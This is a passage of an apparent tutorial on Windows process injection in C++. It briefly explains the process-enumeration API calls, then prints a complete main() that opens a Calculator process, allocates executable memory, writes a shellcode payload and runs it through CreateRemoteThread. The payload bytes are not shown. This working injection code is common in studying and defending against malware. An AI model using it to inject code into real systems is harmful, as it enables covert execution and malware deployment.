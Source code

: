 ```C++
    return processID;
}
```

- **CreateToolhelp32Snapshot**: Creates a snapshot of the system’s processes.
- **PROCESSENTRY32**: Contains information about a process, such as the ID associated with the process.
- **Process32First/Process32Next**: Iterates through the list of processes gathered from CreateToolhelp32Snapshot().

&nbsp;

&nbsp;

## The main() function

Calls the GetProcessID() function mentioned earlier. After getting the process ID, it opens a handle to the process, allocates memory to the process, writes the shellcode to the allocated memory, then finally creates a remote thread in order to execute the shellcode.

```C++
int main() {
    std::wstring processName = L"CalculatorApp.exe";
    DWORD procID = GetProcessID(processName);

    if (procID == 0) {
        std::cerr << "Failed to get process ID. Exiting." << std::endl;
        return 1;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procID);
    if (hProcess == NULL) {
        std::cerr << "Failed to open process. Error: " << GetLastError() << std::endl;
        return 1;
    }

    LPVOID remoteBuffer = VirtualAllocEx(hProcess, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    if (remoteBuffer == NULL) {
        std::cerr << "Failed to allocate memory in the target process. Error: " << GetLastError() << std::endl;
        CloseHandle(hProcess);
        return 1;
    }

    if (WriteProcessMemory(hProcess, remoteBuffer, payload, sizeof(payload), NULL) == 0) {
        std::cerr << "Failed to write memory in the target process. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    HANDLE remoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    if (remoteThread == NULL) {
        std::cerr << "Failed to create remote thread. Error: " << GetLastError() << std::endl;
        VirtualFreeEx(hProcess, remoteBuffer, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }


    std::cout << "Shellcode injected into target process." << std::endl;

```